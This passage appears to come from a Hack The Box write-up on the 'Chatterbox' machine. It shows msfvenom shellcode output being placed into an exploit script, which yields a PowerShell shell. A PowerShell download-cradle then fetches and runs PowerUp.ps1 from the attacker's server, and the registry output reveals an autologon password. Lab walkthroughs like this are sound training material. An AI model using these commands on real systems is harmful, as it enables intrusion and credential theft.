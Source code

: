 We get back the following result.

```text
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 684 (iteration=0)
x86/unicode_mixed chosen with final size 684
Payload size: 684 bytes
Final size of python file: 3330 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
.....[redacted]
```

Good! The payload size is 684 bytes, so it’s within the limit. Copy the payload and add it in place of the payload included in the exploit.

Start up a python server in the directory that the PowerShell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Run the exploit.

```text
root@kali:~/Desktop/htb/chatterbox# python 36025.py 
---->{P00F}!
```

We get a PowerShell shell!

![](https://miro.medium.com/max/943/1*BqwL-qWlNezkn5G9g4eKFw.png)

We’ll use the [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) script to determine if there are any misconfigurations that lead to privilege escalation.

Upload and run the script on the target machine.

```text
PS C:\Users\Alfred\Desktop> iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/PowerUp.ps1')PS C:\Users\Alfred\Desktop> Invoke-AllChecks
```

We get back two interesting results.

```text
[*] Checking for Autologon credentials in registry...DefaultDomainName    : 
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   :[*] Checking for unattended install files...UnattendPath : C:\Windows\Panther\Unattend.xml
```
